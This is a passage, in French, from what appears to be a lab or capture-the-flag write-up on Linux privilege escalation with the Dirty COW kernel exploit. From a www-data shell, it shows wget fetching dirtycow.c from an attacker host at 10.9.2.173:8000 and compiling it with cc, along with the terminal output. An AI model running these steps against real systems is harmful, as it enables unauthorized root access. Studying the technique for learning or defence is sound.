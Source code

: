 <figure><img src=".gitbook/assets/dirtycow02.png" alt=""><figcaption><p>dirtycow mode d'emploi</p></figcaption></figure>

le compilateur **gcc n'est pas installé**. À la place, nous pouvons utiliser **cc**, son équivalent UNIX.

```
www-data@ubuntu:/dev/shm$ gcc --version
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
www-data@ubuntu:/dev/shm$ 
www-data@ubuntu:/dev/shm$ cc --version
Ubuntu clang version 3.4-1ubuntu3 (tags/RELEASE_34/final) (based on LLVM 3.4)
Target: x86_64-pc-linux-gnu
Thread model: posix
www-data@ubuntu:/dev/shm$ 
```

Téléchargeons et transférons le fichier 40616.c que j'ai renommé en dirtycow.c pour plus de clarté.

Suivons pas à pas la mise en œuvre de l'exploit et ne nous préoccupons pas des 'warnings' générés.

```sh
www-data@ubuntu:/dev/shm$ wget 10.9.2.173:8000/dirtycow.c
wget 10.9.2.173:8000/dirtycow.c
--2024-10-08 01:06:39--  http://10.9.2.173:8000/dirtycow.c
Connecting to 10.9.2.173:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4966 (4.8K) [text/x-csrc]
Saving to: 'dirtycow.c'

100%[======================================>] 4,966       --.-K/s   in 0s      

2024-10-08 01:06:39 (674 MB/s) - 'dirtycow.c' saved [4966/4966]

www-data@ubuntu:/dev/shm$ cc dirtycow.c -o cowroot -pthread
dirtycow.c:91:1: warning: control reaches end of non-void function [-Wreturn-type]
}
^
dirtycow.c:100:17: warning: incompatible pointer to integer conversion passing 'void *' to parameter of type '__off_t' (aka 'long') [-Wint-conversion]
        lseek(f,map,SEEK_SET);
                ^~~
/usr/include/unistd.h:334:41: note: passing argument to parameter '__offset' here
extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                                        ^
dirtycow.c:104:1: warning: control reaches end of non-void function [-Wreturn-type]
```
